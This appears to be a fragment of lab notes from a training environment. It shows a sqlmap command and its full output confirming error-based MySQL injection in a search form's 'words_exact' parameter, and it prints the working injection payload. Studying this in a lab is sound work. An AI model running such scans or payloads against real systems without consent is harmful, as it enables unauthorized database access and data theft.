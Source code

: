 _SQL injection techniques to use (default "BEUSTQ")_

`sqlmap -r ./request.txt -p 'words_exact' --technique=E`:
```
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.8.9#stable}
|_ -| . [.]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 17:52:00 /2024-11-26/

[17:52:00] [INFO] parsing HTTP request from './request.txt'
[17:52:00] [INFO] testing connection to the target URL
[17:52:01] [WARNING] turning off pre-connect mechanism because of connection reset(s)
[17:52:01] [CRITICAL] connection reset to the target URL. sqlmap is going to retry the request(s)
[17:52:01] [WARNING] if the problem persists please check that the provided target URL is reachable. In case that it is, you can try to rerun with switch '--random-agent' and/or proxy switches ('--proxy', '--proxy-file'...)
got a 307 redirect to 'https://foq9rsyx9porvk529i6tt39dc.us-east-8.attackdefensecloudlabs.com/dosearch.php'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] N
[17:52:05] [INFO] heuristic (basic) test shows that POST parameter 'words_exact' might be injectable (possible DBMS: 'MySQL')
[17:52:05] [INFO] heuristic (XSS) test shows that POST parameter 'words_exact' might be vulnerable to cross-site scripting (XSS) attacks
[17:52:05] [INFO] testing for SQL injection on POST parameter 'words_exact'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[17:52:17] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[17:52:33] [INFO] POST parameter 'words_exact' is 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)' injectable 
POST parameter 'words_exact' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 37 HTTP(s) requests:📌
---
Parameter: words_exact (POST)
    Type: error-based📌
    Title: MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)
    Payload: words_all=&words_exact=TEST' IN BOOLEAN MODE) AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x717a7a7171,(SELECT (ELT(6150=6150,1))),0x7178707a71,0x78))s), 8446744073709551610, 8446744073709551610)))#&words_any=&words_without=&name_exact=&ing_modifier=2📌
---
```
